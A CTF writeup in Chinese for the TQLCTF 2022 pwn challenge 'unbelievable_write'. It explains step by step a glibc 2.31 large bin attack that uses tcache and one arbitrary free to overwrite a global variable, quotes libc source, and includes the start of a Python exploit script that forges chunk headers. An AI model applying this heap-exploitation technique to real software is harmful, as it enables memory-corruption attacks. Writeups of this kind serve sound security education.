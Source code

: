 # PKUCC TQLCTF 2022 Writeup

## [pwn] unbelievable_write

题目大意：任意多次随意大小内存分配、填充、释放，中间插入一次任意堆地址内存释放，要求覆写一个给定的全局变量，PIE没开，glibc2.31

没开PIE，所以就是给定内存地址覆盖，已有的途径是很多的，不过唯一困难的地方在于几乎所有已有的途径是要求至少持有两块内存的，中间还可能插入其他内存块防止合并，而这里虽然任意多次内存分配，但是释放总是紧随其后，就没法直接应用现有的手段了

稍作变通后仍然可以实现large bin attack，方法如下：
 1. 分配并释放大小为0x250、0x300、0x350内存块，注意它们释放后进入了tcache，内部标记是“正在使用”，不会进行内存合并
 2. 填充之前的内存块时，内部伪造一个大小为0x450的内存块，并利用一次任意堆地址释放的操作将其释放，它会直接进入unsorted bin，不经过tcache
 3. 分配一次大小为0x450的内存块，顺便因为内存块跨过了0x300内存块的头部，通过内存块填充把之前释放的0x300内存块的大小改成0x440，这个0x450内存块释放后再次进入unsorted bin
 4. 分配一个大小为0x800的内存块把之前在unsorted bin的0x450内存块刷入large bin
 5. 分配一个大小为0x250的内存块，从tcache中直接取出，所以可以修改large bin中的大小为0x450的内存块头部信息，把bk_nextsize指针指向待覆写的全局变量前部
 6. 再分配大小为0x300的内存块，从tcache中之前取出，但是它的头部信息已经被覆盖了，所以释放时候会被当作大小为0x440的内存，进入unsorted bin
 7. 分配大小为0x900的内存块把刚才大小为0x440的内存块刷入unsorted bin，由于0x440 < 0x450，中间的信息都是我们自己伪造不会有内存块合并或拆分，大小为0x450的内存块头部信息我们完全控制，其bk_nextsize指向了待覆写的全局变量前部，large bin attack完成，指定全局变量被覆写

libc相关代码：
```c
  if ((unsigned long) (size)
      < (unsigned long) chunksize_nomask (bck->bk))
    {
      fwd = bck;
      bck = bck->bk;

      victim->fd_nextsize = fwd->fd;
      victim->bk_nextsize = fwd->fd->bk_nextsize;
      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
    }
```

pwn脚本：
```python
# malloc(0x250) = 0x20c82c0
print(1)
print(0x250)
print('\x00' * 0x20 + # padding
        '\x00' * 8 + # mchunk_prev_size
        '\x61\x04' + '\x00' * 6 # mchunk_size
        )

# malloc(0x300) = 0x20c8520
print(1)
print(0x300)
print('\x00' * 0x220 + # padding
        '\x00' * 8 + # mchunk_prev_size
        '\x11' + '\x00' * 7 + # mchunk_size
        '\x00' * 8 + # mchunk_prev_size
        '\x11' + '\x00' * 7 # mchunk_size
        )

# malloc(0x350) = 0x20c8830
print(1)
print(0x350)
print('\x00' * 0x130 + # padding
        '\x00' * 8 + # mchunk_prev_size
        '\x11' + '\x00' * 7 + # mchunk_size
        '\x00' * 8 + # mchunk_prev_size
        '\x11' + '\x00' * 7 # mchunk_size
        )

```
